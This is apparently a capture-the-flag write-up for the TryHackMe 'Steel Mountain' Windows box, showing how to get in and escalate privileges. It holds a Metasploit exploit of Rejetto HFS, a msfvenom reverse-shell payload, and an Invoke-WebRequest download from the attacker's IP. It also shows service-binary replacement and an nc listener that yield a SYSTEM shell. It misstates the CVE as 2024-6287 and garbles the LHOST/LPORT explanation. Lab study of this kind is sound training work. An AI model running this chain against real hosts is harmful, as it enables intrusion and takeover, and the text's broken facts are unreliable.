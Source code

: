 # Steel Mountain

Directly starting from Task_2.

#### Question:Scan the machine with nmap. What is the other port running a web server on?
#### Solution:
##### Enumeration Part

Run the following nmap command in order to scan the target machine.

`sudo nmap -sS --top-ports 200 10.10.139.106`

Open the link to see the output of nmap: 
![Alt text](../Screenshots/Steel_Mountain/nmap_output.png)

We can see that http-proxy is running on port 8080. So,
##### Answer: 8080

#### Question: Take a look at the other web server. What file server is running?
#### Solution:
Open the browser and enter the url along with port 8080 to see is there anything or not, 
I shown up a web page. Where there was a link for http file server as shown in the screenshot

![Alt text](../Screenshots/Steel_Mountain/file_server_link.png)

As I clicked, I shown up a page:
![Alt text](../Screenshots/Steel_Mountain/service_running.png)

##### Answer: Rejetto http file server

#### Question:What is the CVE number to exploit this file server?
#### Solution: 
I searched about it's vulnerabilities on google and found the correct cve number.
#### Answer: 2024-6287

#### Question: Use Metasploit to get an initial shell. What is the user flag?
#### Solution:
I opened metasplout using command:
`msfconsole`

Then I searched for hfs keyword using command:
`search hfs`

It showd me followind output:
![Alt text](../Screenshots/Steel_Mountain/metasploit_exploits.png)

Then I selected 4th exploit and then set it's values:
Conventionally, LHOST and LPORT means the attackers machine's informationa and LHSOT and LPORT means target's information. I filled that information and ran the exploit. See the output:
![Alt text](../Screenshots/Steel_Mountain/meterpreter.png)

Now, I changed my directory to `c:\Users\bill\Desktop\` and read the content of user.txt:
![Alt text](../Screenshots/Steel_Mountain/user_flag.png)

#### Privilege Escalation:
Now, We need to upload a PowerUp.ps1 file to target machine. For that purpose, download it via the given link and then use the command below to transfer the file to target machine:
`upload upload /path/to/PowerUp.ps1`
This path is the path of the script in your attacker machine.
![Alt text](../Screenshots/Steel_Mountain/upload_powerup.png)

Now, in meterpreter, hit the command:
`shell`
Then go to the path where Powerup.ps1 script is present and enter the followind command:
`powershell -c ". .\PowerUp.ps1; Invoke-AllChecks"`

Above command will shown up the service that can be exploited, a part of it is shown below:

![Alt text](../Screenshots/Steel_Mountain/script_output.png)

Now, I am going to replace the actual file with our maclicious file (payload), so when service will start, instead of running legitimate exe file, it will run maclicious file and we will get the root shell.

##### Creating paylod

using msfconsole, we can make our payload:
`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.25.176 LPORT=4443 -f exe -o Advanced.exe`

now inside the shell of target machine, run the followind command to copy the payload from attacker's machine:
`powershell -NoP -NonI -C "Invoke-WebRequest -Uri 'http://10.8.25.176:8000/Advanced.exe' -OutFile $env:USERPROFILE\\Desktop\\ASCService.exe"`

Now I copied this payload to the desired path where legitimate exe file was present, I overwrite that with my payload:
`copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare"`
#### Error resolution: 
If you get error while copying it, then first stop the service and then try to copy. Command to stop the service is given ahead.

Now, I stopped the service using the command:
`net stop AdvancedSystemCareService9`
Now, run the netcat on our attacking machine, I ran with the command:
`nc -lvnp 4443`

Now, start the service using the command:
`net start AdvancedSystemCareService9`

Boom! We've got the root shell at our attacking machine.
![Alt text](../Screenshots/Steel_Mountain/root_shell.png)

Now, to get the flag, move the path "C:\Users\Administrator\Desktop", and run following command:
`type root.txt`
Here's the flag!.

![Alt text](../Screenshots/Steel_Mountain/root_flag.png)

